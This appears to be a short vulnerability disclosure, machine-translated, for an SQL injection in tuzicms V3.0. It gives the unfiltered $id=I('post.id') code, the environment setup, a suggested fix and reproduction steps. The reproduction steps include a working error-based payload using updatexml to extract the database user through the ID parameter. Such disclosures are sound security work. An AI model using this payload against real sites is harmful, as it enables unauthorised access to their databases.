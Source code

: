 # tuzicms
Scope of influence
V3.0
Repair scheme
Filter parameter ID
Environment construction method
(1) : download from the official website and unzip it to the WWW directory, phpstudy, but the PHP version should be 5.3
Cause code vulnerabilities
$id=I('post.id');
Unfiltered
Vulnerability recurrence method
Click the user name modification menu
![image](https://user-images.githubusercontent.com/27337983/139573872-9201a74e-5c2b-4bef-8355-806d04b75187.png)


Start capturing bags
At parameter ID


Payload
user where%201%20and%20updatexml(1,concat(0x7e,user(),0x7e),1)


![image](https://user-images.githubusercontent.com/27337983/139573881-0bfba88e-c9b6-49be-84f5-11a83c1f4a35.png)

